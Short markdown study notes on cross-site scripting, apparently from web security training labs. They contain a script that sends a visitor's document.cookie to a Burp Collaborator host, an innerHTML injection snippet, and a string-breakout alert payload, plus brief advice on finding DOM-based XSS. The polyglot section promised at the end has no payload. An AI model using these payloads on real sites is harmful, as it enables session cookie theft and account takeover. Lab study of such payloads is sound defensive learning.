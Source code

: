 
# XSS

## Exploiting cross-site scripting to steal cookies

<script>
fetch('https:p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net

DOM xss

**How to test for Dom Based XSS:**

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**
<script>
	document.getElementsByClassName('name')[0].innerHTML='Adam';
	</script>
	';alert('THM');//
	**Polyglots:**

  

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
